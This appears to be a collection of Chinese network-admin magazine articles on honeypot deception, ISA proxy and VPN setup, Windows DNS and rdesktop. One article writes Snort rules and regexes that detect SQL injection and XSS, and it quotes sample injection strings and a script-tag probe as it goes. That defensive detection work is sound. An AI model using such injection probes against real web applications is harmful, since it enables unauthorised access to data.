尽管 Honey Pot 技术可以迅速切换，但是对稍高级的网络入侵，Honey Pot 技术就作用甚微了。因此，分布式 Honey Pot 技术便应运而生。它将欺骗（Honey Pot）散布在网络的正常系统和资源中，利用闲置的服务端口来充当欺骗，从而增大了入侵者遭遇欺骗的可能性。分布式 Honey Pot 技术有两个直接效果：首先是将欺骗分布到更广范围的 IP 地址和端口空间中；其次是增大了欺骗在整个网络中的百分比，使得欺骗比安全弱点被入侵者扫描器发现的可能性增大。

分布式 Honey Pot 技术也不是十全十美的，它的局限性体现在 3 个方面：一是它对穷尽整个空间搜索的网络扫描无效；二是只提供了相对较低的欺骗质量；三是只相对使整个搜索空间的安全弱点减少。而且，这种技术一个更为严重的缺陷是它只对远程扫描有效。如果入侵已经部分进入到网络系统中，处于观察（如嗅探）而非主动扫描阶段时，真正的网络服务对入侵者已经透明，那么这种欺骗将失去作用。

扩充空间可以显著增加入侵者的工作量，从而达到安全防护的目的。这样许许多多不同的欺骗，就可以在一台计算机上实现。当入侵者的扫描器访问到网络系统的外部路由器并探测到一项欺骗服务时，还可将扫描器所有的网络流量重定向到欺骗上，使得接下来的远程访问变成这个欺骗的继续。

从防护效果上看，将网络服务放置在所有这些 IP 地址上将毫无疑问地增加入侵者的工作量，因为他们需要决定哪些服务是真正的，哪些服务是伪造的，特别是在 4 万个以上 IP 地址都放置了伪造网络服务的系统中。而且，在这种情况下，欺骗服务相对更容易被扫描器发现，通过诱使入侵者上当，增加了入侵时间，从而大量消耗入侵者资源，使真正的网络服务被探测到的可能性大大减小。

当然，采用这种欺骗时，网络流量和服务的重定向必须严格保密，因为一旦暴露就将招致攻击，从而导致入侵者很容易将任一已知有效的服务和这种用于测试入侵者扫描探测及其响应的欺骗区分开来。

## 2. 用户信息迷惑：组织信息欺骗和多重地址转换

面对网络攻击技术的不断提高，一种网络欺骗技术肯定不能做到总是成功，必须不断提高欺骗质量，才能使入侵者难以将合法服务和欺骗区分开来。多重地址转换和组织信息欺骗能有效迷惑对手。

如果组织的 DNS 服务器包含了个人系统拥有者及其位置的详细信息，那么你就需要在欺骗的 DNS 列表中具有伪造的拥有者及其位置，否则欺骗很容易被发现。而且，伪造的人和位置也需要有伪造的信息，如薪水、预算和个人记录等。因此，如果某个组织提供有关个人和系统信息的访问，那么欺骗也必须以某种方式反映出这些信息。

另外，在信息迷惑上，地址的多次转换能将欺骗网络和真实网络分离开来，这样就可利用真实计算机替换低可信度的欺骗，增加了间接性和隐蔽性。其基本概念就是重定向代理服务（通过改写代理服务器程序实现），由代理服务进行地址转换，使相同的源和目的地址像真实系统那样被维护在欺骗系统中。

## 3. 网络信息迷惑：网络动态配置和网络流量仿真

真实网络是随时间而改变的，如果欺骗是静态的，那么在入侵者长期监视的情况下就会导致欺骗无效。因此，需要动态配置欺骗网络以模拟正常网络行为，使欺骗网络也像真实网络那样随时间而改变。为使之有效，欺骗特性也应该尽可能反映出真实系统特性。例如，如果办公室计算机在下班之后关机，那么欺骗计算机也应该在同一时刻关机。其他如假期、周末和特殊时刻也必须考虑，否则入侵者很可能发现欺骗。

产生仿真流量的目的是使流量分析不能检测到欺骗。在欺骗系统中产生仿真流量有两种方法：一种方法是采用实时方式或重现方式复制真正的网络流量，这使得欺骗系统与真实系统十分相似，因为所有访问连接都被复制了；还有一种方法是从远程产生伪造流量，使入侵者可以发现和利用。

在欺骗与被欺骗的过程中，对双方智力考验要求很高。如果在其中某个环节判断出了问题，就可能反而陷入别人的圈套。因此，必须对相关欺骗手法有一定了解，这样就能在实践操作中做出准确判断。上面的实际例子就说明了这一点，虽然我们是主动设计的，但是对方如果技术更胜一筹，说不定就真的攻破系统了！希望本文能给广大网管管理员带来点帮助，谢谢。

## 用 Snort 巧妙检测 SQL 注入和跨站脚本攻击

文／单长虹

脚本攻击是最近网络上最疯狂的攻击方法了。很多服务器配置了先进的硬件防火墙、多层次的安全体系，可惜最后对 80 端口的 SQL 注入和跨站脚本攻击还是没有办法抵御，只能看着数据被恶意入侵者攻得面目全非而毫无办法——把你的 Snort 武装起来吧，用它来检测这样的攻击！

我们将以使用开放源代码的入侵检测系统 IDS 为例，编写基于规则的正则表达式来对这类攻击进行监测。为照顾不熟悉 Perl 的同学，文中也对相关正则写法做了简要解释。

如果你想对每一种可能的 SQL 注入进行检测，那么你只要检查任何 SQL 元字符的出现，如单引号（'）、分号（;）和双减号（--）。同样，检测跨站脚本攻击时可查看 HTML 标记尖括号（<, >）。但是，这些方法可能引起大量误检，因此规则过滤要尽量准确。

本文中，我们将使用 Snort 对 Perl 中的字符串进行检测为例做详细介绍。不熟悉 Perl 的读者，可先回头阅读 Perl 中的正则表达式部分。

### 1. 针对 SQL 注入的正则表达式

在为 SQL 注入选择正则表达式时，需要记住：攻击者除可从 Cookie 发起攻击外，还可通过表单（Form）输入框。应将来自用户的各种输入信息都作为怀疑对象，并结合具体 Web 应用评估特殊符号造成的告警。

如前所述，一个用于检测 SQL 注入攻击的最弱正则表达式，就是检查元字符（' ; --）。也可检查它们的 16 进制等价表示。

```
/(%27)|(\')|(--)|(%23)|(#)/ix
```

这里，%27 是单引号的 16 进制值，%23 是 “#” 的 16 进制值。像单引号和短横杠是 MS SQL Server 和 Oracle 中的特殊字符；若使用 MySQL，还需检测 “#” 的出现。

同样地，如果攻击者手动将 “--” 改为其 16 进制值 %2D，SQL 注入操作就会失败。下面将该正则表达式加入 Snort 规则中。

```
alert tcp $EXTERNAL_NET any -> $HTTP_SERVERS $HTTP_PORTS (msg:"SQL Injection - Paranoid"; flow:to_server,established; uricontent:".pl"; pcre:"/(%27)|(\')|(--)|(%23)|(#)/i"; classtype:web-application-attack; sid:9099; rev:5;)
```

在这个例子里，uricontent 关键字使用了 “.pl”，因为测试环境中的 CGI 脚本用 Perl 编写。该部分可根据应用替换为 “.php”“.asp”“.jsp” 等。

SQL 查询中还可能在 Where 语句中包含纯数字，例如：

```
select value1, value2, numvalue3 from database where num=value3=some_user_supplied_number
```

在这个例子中，攻击者可能执行一条附加 SQL 查询语句，例如：

```
3; insert values into some_other_table
```

规则可以扩展以过滤分号（;）的出现。但分号也可能在正常 HTTP 交互中出现。为减少误检，可改为从等号（=）之后的内容进行匹配。用户使用 GET 或 POST 请求时，输入域一般会这样出现：

```
username=some_user_supplied_value&password=some_user_supplied_value
```

因此，对用户 SQL 注入尝试的检测可以从等号后参数内容着手，或者它的 16 进制值开始检测。修改后的 SQL 元字符检测正则表达式如下：

```
/((%3D)|(=))[\n]*((')|(%27)|;|(%3B))/ix
```

这个规则首先检查等号（=）或者它的 16 进制 %3D。接下来，[\n]* 的含义就是匹配零个或者多个非换行字符……

一个典型的 SQL 注入尝试过程，通常会围绕单引号来制造一下查询，看看返回结果正确与否，从而确定是否存在 SQL 注入漏洞……

```
/\w*((%27)|('))((%6F)|o|(%4F))((%72)|r|(%52))/ix
```

\w（注意，这里的 w 是小写）指的是大小写字母或者数字……这样，单词 or 的各种形式，我们都已经考虑到了。

同样地，在 SQL 注入中，我们也经常会用到 union 关键字，我们可以如下设置规则，针对 UNION 关键字的 SQL 注入检测正则表达式：

```
/((%27)|('))union/ix
```

有了上面的基础，这句规则就不需要多作解释了。对于同样会经常碰到的 select、insert、update、delete、drop 等语句，我们可以举一反三……

在 SQL 注入中，我们为了使 SQL 服务器返回错误，然后通过错误来获得有用信息，经常会出现诸如 1=(select name from student where sno='200021')……

2.5 对 1=(select name from student where sno='200021') 类似查询进行监测的正则表达式：

```
/((%27)|('))select/ix
```

在 MS SQL Server 中，经常被利用的还有扩展存储过程 xp_cmdshell、xp_regread、xp_regwrite 等……针对 MS SQL Server 的 SQL 注入进行检测的正则表达式：

```
/exec(\s|\+)+(s|x)p\w+/ix
```

exec 为调用存储过程的关键字，(\s|\+)+ 代表空格或者它的 HTTP 编码等价替换……

上面，我们仅仅是对 SQL 注入的一些最基本方法进行监测，但是，熟悉 SQL 注入的人都知道，SQL 注入中用的方法还有很多……

### 2. 针对跨站脚本攻击的正则表达式

在发动一次跨站脚本攻击之前，为了测试网站漏洞，攻击者通常要做一个简单的 HTML 测试，如 `<script>alert("OK")</script>`。

下面这个正则表达式就可以针对这类攻击进行检测。它将捕获使用 `<b>`、`<u>` 或者 `<script>` 的尝试……简单跨站脚本攻击的正则表达式：

```
/((\%3C)|<)((\%2F)|\/)*[a-z0-9\%]+((\%3E)|>)/ix
```

((\%3C)|<) 是对左尖括号进行检测，((\%2F)|\/)* 对结束斜杠进行匹配，[a-z0-9\%]+ 匹配标签名……

```
alert tcp $EXTERNAL_NET any -> $HTTP_SERVERS $HTTP_PORTS (msg:"NII Cross-site scripting attempt"; flow:to_server,established; pcre:"/((\%3C)|<)((\%2F)|\/)*[a-z0-9\%]+((\%3E)|>)/i"; classtype:web-application-attack; sid:9000; rev:5;)
```

跨站脚本也可以通过使用 `` 技术来实现。对于这一类攻击，我们可以这样配置，针对 `` 的跨站脚本攻击正则表达式：

```
/((\%3C)|<)((\%69)|i|((\%49))((\%6D)|m|((\%4D))((\%67)|g|((\%47))[^\n]+((\%3E)|>)/
```

左右尖括号不再解释。`((\%69)|i|((\%49)))((\%6D)|m|((\%4D)))((\%67)|g|((\%47)))` 是针对 img 的匹配。`[^\n]+` 前文也提到过。还有一种更偏执的针对跨站脚本攻击的正则表达式：

```
/((\%3C)|<)[^\n]+((\%3E)|>)/
```

这个正则表达式采用了最“恶毒”的办法：把所有出现 `< >` 的地方都视为跨站脚本攻击。虽然容易引起误检，但在某些场景下确实能够有效防止跨站脚本攻击。

### 3. 自己动手编写规则

编写 Snort 规则时首先要考虑效率和速度。规则应尽量包含 content 选项。2.0 版本后 Snort 改变了检测引擎方式，第一阶段做集合模式匹配；content 越长匹配越精确。若规则不含 content，会拖慢整体系统。

编写规则时应尽量把目标定位在攻击位置（如偏移量），而不是泛泛指定。content 规则对大小写敏感（除非使用 nocase）。例如 FTP 命令通常为大写，规则需要考虑这一点。

```
alert tcp any any -> 192.168.1.0/24 21 (content:"user root"; msg:"FTP root login");
alert tcp any any -> 192.168.1.0/24 21 (content:"USER root"; msg:"FTP root login");
```

第二条规则能检测出多数自动以 Root 登录的尝试，而第一条可能不行。编写规则时，理解协议规范有助于降低绕过攻击的机会。

### 4. 结论

本文给出了多种针对 SQL 注入与跨站脚本攻击的正则表达式。部分规则较偏执、粗暴，虽可提高告警率，但也容易引起误检。应尽量精确设置规则，并结合新型入侵方法持续调整与补充，才能适应新的安全需求。

## ISA Server 2000 巧架对外的 HTTP 代理

ISA Server 2000（以下简称 ISA）既是防火墙，也是一款性能优异的代理服务器。通常情况下它作为内网代理使用，外网不能直接使用；但在特定需求下，也可以将其代理服务发布到外部使用。ISA 的代理服务包括 HTTP 协议代理（Web Proxy）和 Socks4 代理。本文以 HTTP 代理发布为例，说明如何将 ISA 变成 Internet 上可用的 HTTP 代理服务。

### 发布步骤

- 1. 新建协议

进入 ISA 管理窗口，定位到 “Policy Elements/Protocol Definitions”，新建一条协议，参数如下（如图 1 所示）：

```
Name: HTTP Proxy Server
Port number: 8080（Web Proxy 服务监听端口）
Protocol type: TCP
Direction: Inbound
Secondary connections: No
```

### 2. 创建 HTTP 代理服务器的发布规则

定位到 “Publishing/Server Publishing Rules”，新建一个服务器发布规则，参数如下（如图 2 所示）：

- Rule name（随便取一个有意义的名字）
- IP address of internal server：填上 ISA 内网卡的 IP
- External IP Address on ISA Server：选择 ISA 的公网 IP
- Protocol Settings：HTTP Proxy Server（第一步创建的协议）
- Client type：Any request

### 3. 配置

下面的配置就与你的 Access Policy 有关了。如果你的 Protocol rules 中定义了允许所有 Web 类协议请求外出（即协议规则应用于 “Any request”），那么不用再进行其他设置，你的 HTTP 代理服务器已经发布好了。但如果相关规则应用于客户端地址集或特定用户时，就需要进一步检查与设置，下面分别讲述。

- （1）如果相关 HTTP 协议规则应用于特定客户端地址集时（比如只允许部分机器上网），需要检查这个客户端地址集是否包含 127.0.0.1 这个环回地址，如果不包含，请添加这个地址。因为当从外部连接到代理服务器时，请求会涉及 ISA 监听及转发过程，若地址集规则未包含 127.0.0.1，通常会导致 12202 错误。加入 127.0.0.1 后即可解决该问题。
- （2）如果相关 HTTP 协议规则应用于特定用户时，需要检查 Outgoing Web Requests 下的 Authentication 选项（在 ISA 管理窗口中右击服务器后选择“属性”）。默认情况下 Web Proxy 服务在内网卡 8080 端口上监听，Authentication 方法是 Integrated，保持这些值即可。此时用户使用代理浏览网页会弹出输入域、用户名和密码的对话框。

这样我们的 HTTP 代理服务器就发布完成了。通常情况下，这种 ISA 代理速度尚可，并且外部用户还能受益于 ISA 缓存。

### 使用测试

使用方法这里做简要说明。既然要用 HTTP 代理服务器，首先要保证软件本身支持 HTTP 代理。下面以 IE 和 QQ 为例说明如何使用此代理。

- 1. 在 IE 中进入“工具/Internet 选项/连接/局域网设置”，在地址栏中填入 ISA 的公网 IP，端口填入 8080 即可（如图 4 所示）。
- 2. 现在的 QQ 版本都支持 HTTP 代理。请在网络设置窗口中选择 HTTP 代理服务器，代理服务器地址与端口号同 IE 一样设置；如果要求认证，在用户名、校验用户密码和域栏分别填入即可（如图 5 所示）。

通过以上发布和使用两个步骤，大家应该很清楚地知道 ISA Server 做代理的方法了。这样的代理是比较好的，如果你有兴趣，也可以试试哦！

文／图 朱宏志

## CMAK 自定义 VPN 登录客户端软件

在使用微软的 VPN 服务器时，客户端需要自行创建 VPN 连接，这对某些最终用户来说可能比较困难；另外，有时用户希望登录 VPN 服务器后仍能访问因特网，默认情况下不能，需要额外配置。微软提供了“连接管理器管理工具（CMAK）”，可预先打包 VPN 客户端配置，用户双击安装即可使用。

为了更有针对性，这里以图1环境为例：客户端登录 VPN 服务器后仍能上网；可访问远程两个子网（如 150.0.1.0/24 和 192.168.0.0/24）；VPN 客户端分配 IP 范围为 150.0.1.200–150.0.1.210。

整个操作分为若干步（示例使用 Windows Server 2003 的 CMAK，Windows 2000 也有 CMAK，但建议使用前者）。

- 1. 安装“连接管理器管理工具”（可在“添加/删除 Windows 组件”中安装“连接管理器组件”）。运行后开始打包 VPN 客户端。
- 2. 略过欢迎界面，进入“服务和文件名”窗口：填写“服务名”和“文件名”。
- 3. 进入“领域名”窗口，可直接登录 VPN 服务器时选择“不在用户名中添加领域名”。
- 4. 进入“合并配置信息”窗口。由于是第一次创建，无需合并配置文件，直接点击“下一步”。
- 5. 进入“VPN 支持”窗口，勾选“此配置文件的电话簿”，并设置“总是使用相同的 VPN 服务器”或“总是允许用户在连接前选择 VPN 服务器”；若选择后者，需要提供包含 VPN 服务器条目的文本文件。
- 6. 进入“VPN 项目”窗口，选择默认虚拟专用网络项目并编辑 TCP/IP 设置，去掉“使此连接成为客户端的默认网关”项。
- 7. 进入“电话簿”窗口，取消“自动下载电话簿更新”项，然后点击“下一步”。
- 8. 在“拨号项目”窗口点击“下一步”，进入“路由选择表更新”窗口，可添加到内网网段（如 192.168.0.0/24）的路由。
- 9. 在“自动代理”窗口中选择“不配置代理设置”。
- 10. 进入“自定义操作”窗口，可配置 VPN 连接各阶段客户端可运行程序。
- 11. 在“登录位图”窗口可设置公司标识图片（如 330×140 BMP）与支持信息。
- 12. 在后续窗口中选择“用此服务配置文件安装连接管理器 1.3 版”，持续“下一步”生成 VPN 客户端软件（如 VPN.exe）。

```ini
[settings]
default=三峡宾馆
updateurl=http://www.***.com/vpn/vpnsvs.txt
message=请从下面选择一个要登录的VPN服务器
[vpn servers]
三峡宾馆=vpn.sanxiahotel.com
备份=ultradream.3322.org
```

其中 Default 表示默认使用的 VPN 服务器，Updateurl 是该文本文件的更新链接；当 VPN 服务器变化时，只需更新该文本文件即可。Message 是提示信息，[vpn servers] 列出所有 VPN 服务器（前半部分为名称，后半部分为地址）。

```bash
ADD 192.168.0.0 MASK 255.255.255.0 default METRIC default IF default
```

然后在图5中选择上面创建的文本文件即可。我们不仅可以在这里增加路由，还可以删除路由，这样可以防止 VPN 客户端访问内网的某些子网。这个路由文件也可像 VPN 服务器文件一样通过 URL 更新，注意路由更新需要客户端用户有本地管理员权限。

软件包创建好之后，可以把 VPN.exe 分发给客户端用户，用户双击安装即可。安装后连接会位于“网络连接”窗口中，可通过邮件、公司 Web 链接等方式分发。该软件包适合批量安装和新手级员工使用。

---

刘流：随着时代的进步，计算机技术也在发生着巨大的变化，自从 IPv4 推出以来，人们可以用 IP 地址来访问网络中的计算机……你想知道 Windows 2003 的 DNS 到底是什么样子的吗？请跟随本文的作者进入愉快的域名系统之旅，相信会带你进入一片全新的技术天地。

## 轻松创建 Windows 2003 DNS 服务器

文／图 RITATV

Windows 2003 推出以后，许多网络管理员都从原来的 Windows 2000 系统转变到 Windows 2003 上。在这样的情况下，和网络正常运行有着非常密切联系的 DNS 服务器就显得比较重要了。本文将带大家建立起自己的 DNS 服务器，希望对广大网络管理员有一定帮助，下面我们正式开始。

### KK网管之家  ADMINISTRATOR CLUB

栏目编辑：刘流 / liuliu@hacker.com.cn

图1

创建正向查找区域：打开“DNS”，在其中的“正向搜索区域”上点击右键，新建一个区域，如图2所示。这里有 3 种可以选择的类型，其中“存根区域”是 Windows 2003 中新增的区域类型。依次按照向导提示进行下去就可以了。

图2

向区域添加资源记录：打开“DNS”→右键单击控制台树中相应的区域，然后单击“其他新记录”。在“选择资源记录类型”列表框中选择要添加的资源记录类型，单击“创建记录”。在“新建资源记录”中输入所需信息，最后单击“确定”向区域添加新记录，如图3所示。

图3

创建反向查找区域：打开“DNS”，在“反向查找区域”上点击右键，新建一个区域，然后按照向导提示依次进行下去，如图4所示。

创建区域委派：打开“DNS”，右键单击控制台树中相应的子域，然后单击“新建委派”，按照“新建委派向导”中的指令操作，完成对新委派域的创建。这里，首先要在受委派的区域中新建一个主机记录，然后才能将其委派到一个新的子域，如图5所示。

图4  
图5

保护 DNS 服务器：打开“DNS”，右键单击控制台树中相应的 DNS 服务器，然后单击“属性”。在“接口”选项卡上确保 DNS 服务器正在侦听正确的接口；在“高级”选项卡上，选中“保护缓存防止污染”复选框；如果 DNS 服务器不执行递归解析，则可选中“停用递归”复选框。如图6所示。

图6

配置转发器：在 DNS 中的某个服务器上点击右键，选择属性，然后就会出现如图7所示的对话框，只要在里面填入要转发到的 IP 地址就可以了。

图7

WINS 集成：在需要和 WINS 集成的区域上点击右键，选择属性，打开如图8所示的窗口，然后指定 WINS 服务器的 IP 地址就可以了。

图8

写到这里，其实还有很多的东西没有提及，因为篇幅的限制，还是希望读者朋友自己多摸索一下，什么东西都不难，难的是要躬行之。

---

| 适合读者 | Linux 初学者、网管 |
|---|---|
| 前置知识 | Linux 基本使用方法 |

## 让 Linux 可以遥控 Windows

看到这个标题大家可能会想，Linux 中怎么可以遥控 Windows 呢？一定是搞错了吧？其实你想过没有，如果在 Linux 中能像使用“终端”这种远程控制的服务来管理 Windows，那么 Linux 中的 Windows 管理员不就有了吗？下面就让我们来看看 Linux 中怎样使用终端服务吧！

### 在 Linux 中安装终端服务客户端

既然想在 Linux 中使用终端服务远程控制 Windows，那么就需要在 Linux 中先配置好终端服务的控制端才行。在 Linux 中安装终端服务并不需要下载什么程序包，因为在 Linux 中本身就内置了这个组件。安装该组件的方法很简单，过程如下：依次单击“主菜单”→“系统设置”→“添加/删除应用程序”，在弹出的窗口中拖动右侧的滚动条至最下方，勾选“系统”部分中的“系统工具”项，然后点击右侧的“细节”链接，如图1所示。

在接着弹出的窗口中点击选中“rdesktop”项目后点击下方的“关闭”按钮，如图2所示。

> 从“rdesktop”项对应的说明可以看出，Linux 中的终端服务需要在 X 窗口中运行。那么什么是 X 窗口呢？原来 X 窗口是 Linux 下一个独立的桌面环境组件，它有 Gnome、KDE 两种常见的环境。和 Windows 不同的是 Linux 桌面环境可以看成是在终端上运行的一个应用程序（C/S 应用），易于安装和升级，甚至去除；而 Windows 的桌面环境是操作系统内核的一部分，无法分离。

在返回上一步后点击“更新”按钮，稍后请根据提示交替插入 Linux 的第二张安装光盘和第一张安装光盘至光驱，并点击“确定”按钮继续，如图3所示。

稍后在 Linux 中弹出更新已完毕的提示框时，就表示终端服务的控制端在 Linux 中的安装已经成功结束了。

### 在 Windows 安装终端服务被控制端

既然 Linux 充当了控制的主角，那么 Windows 当然就是被控制的配角了。以 Windows 2000 AD 版本为例，我们只需在“添加/删除 Windows 组件”窗口中选中“终端”服务后，将模式设置为“远程管理模式”并予以安装即可，如图4所示。

在完成了 Windows 中的终端服务的安装并重新启动一次计算机后，我们的准备工作就一切就绪啦！

### 让 Linux 遥控 Windows

现在就可以在 Linux 中依次点击“主菜单”→“系统工具”→“终端”菜单项，在打开的终端窗口中输入命令后，即可进行 Windows 2000 AD 的登录了，如图5所示。稍后在弹出的终端服务窗口中可以看到 Windows 2000 AD 的登录对话框，此时只需输入该计算机的管理员账户名和密码就可以登录 Windows 2000 AD 的桌面环境，并可进行和本机管理员一样的任何操作了，如图6所示。

```bash
rdesktop -u "账户名" IP地址


```

噢，大家看看 Linux 中进行远程控制是不是也很简单呀？面对这么有趣又实用的功能，还犹豫什么呢？快去试试吧！

---

| 项目 | 内容 |
|---|---|
| 适合读者 | 网管 |
| 前置知识 | ISA Server 2004 基本使用，VPN 架设 |
| 难度等级 | 中 |

## 用 ISA Server 2004 铸炼IP盗用

文／图 朱宏志

上网 IP 被盗用是很多网管员遇到的头痛事，从技术上来说，要真正杜绝这种现象，可靠的方法就是使用支持端口绑定的交换机，但实际上大家通常使用的普通交换机并不支持这种功能，而很多人说的通过把 IP 与 MAC 地址进行绑定来防范 IP 盗用更是不堪一击，因为客户端改动 IP 与 MAC 后这种方法就无能为力了。在这里将推荐一种方法，即使用代理服务器结合 VPN 服务来杜绝上网 IP 被盗用，准确地说也不是能够阻止客户端修改 IP 和 MAC 地址，而是让它修改后也不起作用，或许你现在有点疑惑，到底怎样实现呢？效果如何呢？Follow me。

### 网络结构

先来交代一下本文将使用的网络环境和基本配置，网络结构如图1所示。这个网络结构也是典型的 ADSL 共享上网环境。本文使用的代理服务器是 ISA Server 2004，VPN 服务也由 ISA 所在服务器提供，操作系统是 Windows Server 2003。之所以选择 ISA 2004，是因为它对 VPN 的支持更适宜解决我们这里的论题。

图中 ISA 有两块网卡，一块连接到 DSL Router，一块连接内部网络。内网卡 IP 为 192.168.0.43/24，DNS 配置为 ISP 提供的 61.128.128.68，网关无。Internal 客户端的网关指向 192.168.0.43，DNS 指向 ISP 提供的 61.128.128.68，还有一个由 VPN 客户端连接时动态生成的虚拟 VPN 客户端网络。

### 基本原理

首先在 ISA 上创建访问规则拒绝内网 Internal 上网，当 Internal 网内客户机要上网时，就先通过 VPN 连接到 ISA 上，由 ISA 分配给它一个不同于 Internal 网段的 IP 地址和一个 DNS 设置，并创建访问规则允许 VPN 客户端网络上网，这样就只有那些通过 VPN 连接的客户端才能上网，当然，这些能够进行 VPN 连接的客户端就是有上网权限的客户端。

> 刘流：注意这里可能出现另一种情况，就是用户把自己的 VPN 账户和密码告诉其他非法用户，这样非法用户只要用他得到的 VPN 账户登录也能够上网。怎样来避免这种情况呢？我们可以在地址分配时做文章，只让相关账户第一个登录者能够上网。

注意这里的 VPN 连接与我们平常所使用的 VPN 连接是有点不同的，通常所使用的 VPN 连接，是由外部连接到 VPN 服务器，而这里是直接从内部连接到 VPN 服务器，这也就保证了上网的速度。其实这种方法很类似网通用户的上网方式，网通用户也是通过 LAN 方式连网，但要上网时也要先使用虚拟 ADSL 拨号取得上网用的 IP 及设置。只是网通使用的是 ADSL 虚拟拨号，而我们这里使用的是 VPN 拨号，基本思路都是一样的。

现在你也许要问，如果非法客户端把 IP 改成 VPN 客户端网络内的一个地址不就绕过了这道防线吗？不行的，即使它修改了 IP 也是没用的。原因如下。

- 1. 对 ISA 2004 来说，VPN 客户端网络是动态生成的，也就是只有 VPN 连接成功才是真网络的成员，所以自行修改 IP 后并不会成为 VPN 客户端网络的成员，ISA 会拒绝其上网。
- 2. 如果你的代理服务器不是 ISA，即使当客户端修改 IP 后代理服务器允许其上网，但响应数据包也无法返回给此客户端，所以修改 IP 也无济于事，当然，对修改 IP 与 MAC 在这里也无意义。

为了说明这种情况，下面举个例子。假如我们这里 VPN 客户端网络的 IP 地址范围是 150.0.1.0/24 中的一部分，现在有个非法的客户端 192.168.0.42 把它的 IP 变成了 150.0.1.228，当然它网关设置不能变，还是 192.168.0.43，此时它要访问外部网页，即使它的请求数据能够到达外部，当外部响应数据返回代理服务器时，代理服务器要把数据包返回给 150.0.1.228，根据代理服务器的路由表，到达 150.0.1.0 网络的数据包不会通过物理接口 192.168.0.43 转发，所以数据包也就不能到达 150.0.1.228。从这点可以看出，不使用 ISA 而使用其他能够进行 IP 限制的代理服务器也是可行的，当然 ISA 功能更加强大。

### 实现的具体过程

了解了上面的原理，具体实现也就简单了，主要分以下几大步。

- 一、在 ISA 上创建访问规则（Access Rule），拒绝 Internal 网上网，并把它的规则顺序放在第一，这样 ISA 处理起来更快。  
  本来如果没有明确允许 Internal 上网的规则，ISA 会拒绝 Internal 网络访问外部网的；但为了提高效率，我们可以创建一条明确的拒绝规则。右击 Firewall Policy，选择“新建/Access Rule”，参数如下。

- 二、启用 VPN 服务器。ISA 所使用的 VPN 服务其实就是操作系统本身的，通过下面的步骤来完成。
  - 1. 在 ISA 管理窗口中选中 Virtual Private Network，在右边的 Task 面板上点击 Tasks 标签，然后点击 Enable VPN Client Access 链接。
  - 2. 点击下面的 Configure VPN Client Access 链接，弹出窗口后在 General 标签中选中 Enable VPN Client access，并在 Maximum number of VPN clients allowed 框中填入 VPN 客户端数量；进入 Groups 标签选择可使用 VPN 的用户组（可选域用户组或本地用户组）；进入 Protocols 标签选择 Enable PPTP 项，不必选择 Enable L2TP/IPSec。
  - 3. 点击 Tasks 下的 Select Access Networks 链接，弹出新窗口。在 Access Networks 标签中选中 Internal 网络（如需允许从外部连接到 VPN 服务器也可选 External）；进入 Address Assignment 标签设置分配给 VPN 客户端的 IP 地址段。

怎样分配 IP 才合适呢？前面讲实现原理时就说过需要考虑用户共享 VPN 账号的情况。Windows 的 VPN 服务并不会禁止同一 VPN 账户同一时间在不同客户端登录，因此可采用“地址段分配 + 每个合法用户单独分配固定 IP”的方式。这样当共享账户被他人使用时，因固定 IP 已被占用，后来的连接会被分配到该地址段中的其他地址。

基于此，我们可以创建一种访问规则，允许那些单独分配的 IP 地址集上网，但对这里分配的 IP 范围则不允许其上网。虽然这种方法并不能杜绝与人共享账户，但至少会使用户不会那么大方地共享自己的账户，因为当别人使用自己账户时，自己是不能上网的。

在“static address pool”指定一段静态IP地址，就取172.16.0.1-172.16.0.254吧。那些单独分配的IP就从150.0.1.224-150.0.1.231段中获得，当然具体范围应该根据你VPN客户端的数量而定。接下来在“Use the following network to obtain DHCP, DNS and WINS Services”选择Internal，这里是配置把那块网卡的DNS和WINS等参数分配给VPN客户端。这里选择了Internal，将把内网卡所设置的DNS分配给VPN客户端，即61.128.128.68（如图4所示）。
图4

## 三、启用相关用户的VPN访问权限

- 创建相关用户并设置初始密码，选中“用户下次登录时须更改密码”。
- 把用户加入图2选择的VPN用户组。
- 右击用户，进入其属性窗口，在“拨入”标签中选择“允许访问”项，并选中“分配静态IP地址”项，填入一个IP（根据上面的讨论，从150.0.1.224-150.0.1.231中选择一个，如图5所示）。
图5

## 四、为不同的VPN客户端范围上网创建不同的访问规则

根据上面不同的VPN客户端IP段，我们也需要创建不同的规则。对于172.16.0.1-172.16.0.254段的VPN客户端，拒绝他们上网；而对150.0.1.228-150.0.1.231段的VPN客户端，则允许其上网：

- 选中Firewall Policy，点击Toolbox下的Network Objects；
- 点击New/Address range，新建2个Address range：一个是允许上网的VPN客户端，就叫VPN_YES吧，IP范围是150.0.1.228-150.0.1.231；另一个是不允许上网的VPN客户端，名字就叫VPN_NO，IP范围是172.16.0.1-172.16.0.254；
- 创建2条规则。

规则1：name VPN_YES  
Rule Action: Allow  
Protocols: All outbound traffic  
Access Rule sources: Address Ranges/VPN_YES  
Access Rule Destinations: External和Local Host  
User sets:（图2选择的VPN用户组）

规则2：name VPN_NO  
Rule Action: Deny  
Protocols: All outbound traffic  
Access Rule sources: Address Ranges/VPN_NO  
Access Rule Destinations: External  
User sets: all users

## 五、在客户端创建VPN连接

操作路径是“开始→设置→网络连接→新建连接向导”，参数如下：

网络连接类型：连接到我的工作场所的网络  
网络连接：虚拟专用网络连接  
公司名：随便取个有意义的名字，比如“上网拨号”  
公用网络：不拨初始连接  
VPN服务器选择：输入Internal网卡的IP，这里是192.168.0.43  
可用连接：任何人使用

最后选中“在我的桌面上添加一个到此连接的快捷方式”。这样配置后，当要上网时，用户就先用自己的VPN账户进行VPN连接，连接之后就能上网了。

## 结束语

虽然这种方法不错，但毕竟用户仍有共享VPN账户的可能。当然也有更好的办法来对付这种情况，比如Windows Server 2003就支持一种Network Quarantine and Remote Access的新功能，它可以让VPN客户端连接时运行检查脚本，只有在满足某种条件后才能进行完全自由的访问。在这里我们就可以利用这种功能，比如当VPN客户端连接时运行反向DNS查询，看其查询是否成功来检验客户端的合法性（当然还要有相关的DNS服务器配置），它的具体执行又得另一篇文章来完成了，如果可能，下次再来谈这个问题。

另外可能有人会说了，ISA本身就支持使用用户来限制访问，何必要费力这样做，直接使用用户来限制上网不就行了。确实如此，但使用ISA的用户方式来限制上网有几点不方便的地方，何况还有一些不支持用户限制的代理服务器呢？

- ISA要使用用户限制的话，需要在客户端安装防火墙客户端软件，这对那些不是域网络的管理员来说可能是一件麻烦事。
- 如果是用域用户来验证，客户端必须登录到域；如果客户端是登录到本机的，用户将不能通过验证。

而使用此文所说方法的好处如下：

- 无需另外安装防火墙客户端软件，并且VPN的用户信息也可以用于规则中。
- 对客户端登录到域还是本机没有特定的要求。
- 共享账户问题也有较好的解决方法。

